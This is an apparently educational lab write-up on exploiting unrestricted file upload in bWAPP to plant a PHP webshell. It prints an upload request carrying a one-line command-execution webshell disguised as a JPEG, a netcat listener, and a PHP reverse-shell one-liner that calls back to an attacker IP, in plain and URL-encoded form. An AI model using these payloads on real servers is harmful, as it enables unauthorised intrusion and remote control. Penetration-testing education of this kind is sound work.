




# Unrestricted File Upload: From Webshell to Reverse Shell Access

[🇮🇩 Baca dalam Bahasa Indonesia](webshell-reverse-shell-id.md)

# What is a Webshell?

A Webshell is a file/script used by an attacker or pentester to execute code or commands on a web server, generally through file upload exploitation, and can be used as a means of persistence.

Its vulnerabilities can originate from unrestricted file upload, weak extension/MIME type validation, path traversal, file processing, permissions, and web server misconfiguration that can enable code execution or RCE.

<details>
<summary>Webshells can be categorized based on their functionality and implementation, such as:</summary>

1. Command Webshell
2. Code Execution Webshell
3. File Manager Webshell
4. Database Webshell
5. Database-backed Webshell
6. Minimal / One-liner Webshell
7. Single-file Webshell
8. Multi-file Webshell
9. Custom Webshell
10. Reverse Shell Webshell
11. Web-based Terminal
12. Upload / Dropper Webshell
13. File Upload Webshell
14. File Inclusion Webshell
15. Multi-function Webshell
16. Memory-based Webshell
17. In-memory Webshell
18. Fileless Webshell
19. Obfuscated Webshell
20. Encrypted Webshell
21. Authenticated Webshell
22. Password-protected Webshell
23. Stealth Webshell
24. Polymorphic Webshell
25. Modular Webshell
26. Proxy / Tunnel Webshell
27. C2-integrated Webshell
28. Webshell Loader / Stager
29. Webshell Backdoor
30. Webshell Framework
31. Eval-based Webshell
32. Log-based Webshell
33. Template Injection Webshell
34. Deserialization Webshell
35. Plugin / Module-based Webshell
36. Serverless Webshell
37. Container-based Webshell
38. Server Configuration Webshell
39. Web Server Module Webshell
40. Living-off-the-Land Webshell
41. Webshell via Database Function
42. JavaScript Webshell
43. PHP Webshell
44. ASP Webshell
45. ASP.NET Webshell
46. JSP Webshell
47. Python Webshell
48. Perl Webshell
49. Node.js Webshell
50. CGI-based Webshell
</details>
---

<details>
<summary>Various technology stacks can be leveraged by attackers using webshell techniques, such as:</summary>

1. PHP — PHP-FPM, Apache, Nginx
2. PHP alternatives / runtimes — HHVM, FrankenPHP
3. ASP / Classic ASP — IIS
4. ASP.NET / C# — IIS, Kestrel
5. ASP.NET Core — Kestrel, IIS, Nginx, Apache
6. F# — ASP.NET, Giraffe
7. JSP / Java — Tomcat, Jetty, Spring
8. Java application servers — WildFly, JBoss, GlassFish, Payara, WebLogic, WebSphere
9. Kotlin — Ktor, Spring
10. Scala — Play Framework, Akka HTTP
11. Groovy — Grails
12. Clojure — Ring
13. Node.js / JavaScript — Express, Fastify, Node.js
14. Deno — Deno runtime
15. Bun — Bun runtime
16. Python — Flask, Django, FastAPI, WSGI
17. Ruby — Rails, Rack
18. Perl — CGI, PSGI/Plack
19. Go — net/http, Gin, Echo, Fiber
20. ColdFusion / CFML — Adobe ColdFusion, Lucee
21. Lua — OpenResty, Lua-based web servers
22. Rust — Actix Web, Axum, Rocket
23. Erlang — Cowboy
24. Elixir — Phoenix
25. Haskell — WAI/Warp
26. C / C++ — CGI, FastCGI, embedded web servers
27. Tcl — CGI / Tcl web servers
28. R — Shiny / R web applications
29. Dart — Dart server frameworks
30. Crystal — Kemal / Crystal HTTP
31. Swift — Vapor
32. WebAssembly — WASI/server-side WebAssembly runtimes
33. Clojure — Ring
34. OCaml — Dream, Cohttp
35. Nim — Jester, Prologue
36. Zig — custom HTTP servers / frameworks
37. V / Vlang — vweb
38. Smalltalk — Seaside
39. Prolog — SWI-Prolog HTTP
40. Lisp / Common Lisp — Hunchentoot
41. Scheme — web frameworks / CGI
42. Julia — Genie.jl, HTTP.jl
43. MATLAB — MATLAB Web App Server
44. SAS — SAS web/application environments
45. COBOL — CGI / enterprise application environments
46. Fortran — CGI / custom HTTP integrations
47. Server-side templating engines — Jinja, Twig, Blade, FreeMarker, Thymeleaf, etc.
48. CGI — generic server-side execution
49. FastCGI — generic server-side execution
50. Server-side plugins/modules — Apache, Nginx, IIS, application-server modules
51. Custom / embedded HTTP servers — application-specific runtimes
52. Legacy / proprietary application servers — vendor-specific server-side runtimes
</details>

The use of a webshell does not only depend on the programming language, but also on the **web server, runtime, framework, permission configuration, upload mechanism, and how the application handles and executes files**.

# What is a Reverse Shell?

A Reverse Shell is a technique in which the **target machine establishes an outbound connection** to a machine owned by the attacker or pentester, allowing an interactive shell to be obtained remotely.

Unlike a **Bind Shell**, which opens a port on the target side, a Reverse Shell uses an outbound connection and can therefore often more easily pass through firewalls that only allow outbound traffic.

It is important to understand that a **Reverse Shell is not a vulnerability**, but rather a **payload** that is executed after an attacker successfully obtains the ability to execute commands on the target system.

A Reverse Shell can only be executed when the attacker has obtained **Command Execution** on the server.

Some vulnerabilities that commonly serve as entry points include:

* Command Injection
* Remote Code Execution (RCE)
* Unsafe File Upload
* Insecure Deserialization
* Web Shell
* Local Privilege Escalation

# Root Cause

In this demonstration, the **Webshell** becomes the root cause that allows the file to be uploaded and also enables Reverse Shell escalation as the next foothold.

The attack flow can be simply illustrated as follows.

```text
Unsafe File Upload
        │
        ▼
   Webshell Upload
        │
        ▼
  Webshell Execution
        │
        ▼
  Command Execution
        │
        ▼
Reverse Shell Payload
        │
        ▼
 Outbound Connection
        │
        ▼
  Interactive Shell
```

---

# Lab Topology

In this demonstration, I use a simple lab environment based on VMware.

| Peran | Keterangan | IP Address |
| :--- | :--- | :--- |
| **Attacker** | Kali Linux | `10.10.10.149` |
| **Target Web** | Ubuntu Server (Mutillidae II) | `10.10.10.2` |

```text
+-------------------------------------------------+
|              LAB - 10.10.10.0/24                |
|                                                 |
|  +---------------+      +-------------------+   |
|  |  Kali Linux   |      |   Ubuntu Server   |   |
|  |  [ATTACKER]   |      |   [TARGET WEB]    |   |
|  |  Listener     | <--- |   Webshell        |   |
|  | 10.10.10.149  |      |   10.10.10.2      |   |
|  |   Port 9001   |      |   bWAPP           |   |
|  +---------------+      +-------------------+   |
|          ^                      |               |
|          |                      |               |
|          +--- Reverse Shell ----+               |
+-------------------------------------------------+
```

---

# How to Insert a Webshell on the Target

Here, the entry point needs to be identified first. This means finding the vulnerability and determining what flaw can trigger a file that can be executed on the server side.

Here, I practice this technique using the bWAPP application.

# Determining the Entry Point

The requirements here are:

* a file upload feature



* the location where the file is uploaded



# File Upload Testing

```bash
POST /unrestricted_file_upload.php HTTP/1.1
Host: bwapp.owasp.hacking
Cookie: security_level=0; PHPSESSID=74m5811lvb2m537p414doo9tvh
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary892e890fa227d2e5177f855b0f0f49f6
Content-Length: 22067
Origin: https://bwapp.owasp.hacking
Referer: https://bwapp.owasp.hacking/unrestricted_file_upload.php

Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

------geckoformboundary892e890fa227d2e5177f855b0f0f49f6

Content-Disposition: form-data; name="file"; filename="dewajudi.php"

Content-Type: image/jpeg

ÿØÿà

<?php system($_GET['cmd']); ?>
```



# Running the Listener

There are many variations that can be tried, such as using custom Webshell resources available on the internet, and also directly focusing on the main objective, which is Remote Control Access to the terminal.

Pentesters and attackers have different variations when carrying out each technique. Here, I directly send a Listener to call the Reverse Shell.

# Additional

When performing payload spraying, make sure to perform URL encoding on the code.

This method is not intended to evade detection, but rather for efficiency. If we directly send the input requesting the server to bind, the server will refuse to provide a response, remain unknown, or not be accepted / blocked. This is to verify whether the server can perform the bind.

```bash
root@server01:/var/www/hack/mutillidae/src# php -r '$s = fsockopen("10.10.10.149", 3001, $errno, $errstr, 3); var_dump($s, $errno, $errstr);'
resource(4) of type (stream)
int(0)
string(0) ""
root@server01:/var/www/hack/mutillidae/src#
```

```bash
┌──(moon㉿kali)-[~]
└─$ nc -lvnp 3001
listening on [any] 3001 ...
connect to [10.10.10.149] from (UNKNOWN) [10.10.10.2] 44418
```

# Reverse Shell Testing

The payload needs to be URL encoded. Performing a Reverse Shell itself is a way of increasing the access foothold.

```bash
php -r '$sock=fsockopen("10.10.10.149",3001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php+-r+'$sock%3dfsockopen("10.10.10.149",3001)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'
```

# Result

After that, we successfully obtained terminal shell access to the machine through Webshell access and also a Reverse Shell foothold.



# Impact

An executed Webshell can provide **Command Execution** capabilities within the context of the web server user and become a foothold for further activities.

# Conclusion

In this test, I learned how **Unrestricted File Upload** can be used to deploy a Webshell and obtain **Command Execution**, which is then followed by a Reverse Shell through an outbound connection.

This experiment demonstrates that defense needs to be implemented across multiple layers, starting from **file upload, file execution, permissions, processes, and network monitoring**.

# References

* **OWASP – File Upload Cheat Sheet**
  https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html

* **OWASP – Unrestricted File Upload**
  https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

* **MITRE ATT&CK – Web Shell (T1505.003)**
  https://attack.mitre.org/techniques/T1505/003/

* **MITRE ATT&CK – Command and Scripting Interpreter (T1059)**
  https://attack.mitre.org/techniques/T1059/

* **PayloadsAllTheThings – Reverse Shell Cheat Sheet**
  https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

---

Thank you.